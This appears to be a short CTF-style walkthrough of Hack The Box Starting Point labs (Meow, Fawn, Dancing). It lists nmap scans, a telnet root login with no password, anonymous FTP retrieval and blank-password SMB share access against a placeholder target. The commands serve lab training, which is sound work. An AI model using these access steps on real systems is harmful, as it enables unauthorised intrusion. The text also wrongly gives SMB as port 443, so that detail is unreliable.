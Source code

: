 ***歡迎來到HTB新手村***

Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# 0.1 Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# 0.2 Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp TARGET_IP`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# 0.3 Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`
